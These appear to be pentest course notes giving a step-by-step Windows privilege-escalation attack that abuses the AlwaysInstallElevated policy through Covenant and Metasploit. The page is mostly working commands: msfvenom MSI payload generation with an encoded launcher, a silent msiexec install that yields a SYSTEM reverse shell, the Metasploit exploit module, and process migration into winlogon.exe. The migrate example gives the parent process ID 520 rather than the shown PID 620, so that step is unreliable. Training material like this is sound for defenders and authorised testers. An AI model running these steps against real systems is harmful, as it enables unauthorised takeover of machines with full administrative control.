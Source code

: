 # AlwaysInstallElevated Exploitation

## Target requirements

- The target needs to have those values in the registry: 
  - In `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
  - In `Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
This means that installation packages are installed with elevated privileges 

## Exploitation

- You should have a shell with covenant or metasploit or netcat.  
We will use Covenant and Metasploit here.

### Covenant

#### Enumerate with SharpUp audit

- In your shell type `SharpUp audit`
- In the results you should see this:
  ```
  === AlwaysInstallElevated Registry Keys ===

    HKLM:    1
    HKCU:    1
  ```

#### Enumerate with powerup

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- Type `powershell invoke-allchecks` in your shell
- We should see this
  ```
  [*] Checking for AlwaysInstallElevated registry key...
  AbuseFunction : Write-UserAddMSI

  ```

#### Exploitation

- generate a payload with msfvenom `msfvenom -p windows/exec CMD="" -f msi -o exploitalwaysinstalled.msi` between the quotes put copy and paste an encoded launcher.
- Upload your file in the target using Upload command from covenant (type `Upload` and enter, file the file path for the target and browse to the file in your attack machine)
- run it using `shell msiexec /quiet /qn /i exploitalwaysinstalled.msi
- We should get a prompt for another reverse shell in our grunts as an elevated user
  ```
  > whoami
  NT AUTHORITY\SYSTEM
  ```

### Metasploit

- Interact with a session you should already have from initial foothold `sessions -i num-of-session`

#### Enumerate

- Launch `run post/multi/recon/local_exploit_suggester`
- You should see: `- exploit/windows/local/always_install_elevated: The target is vulnerable.`

#### Exploitation

- Background your session with ctrl z
- Type `use exploit/windows/local/always_install_elevated`
- set session to the number of the session you have on your target 
- type `exploit -j`
- list the sessions you should have another one running as authority system
- type ps and look for a process under session 1 so that we can migrate to it 
- We can use winlogon.exe ` 620   520   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe`
- Migrate to it using `migrate PID-number` in our example it is going to be `migrate 520`

## Resources

- [TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker](https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers)
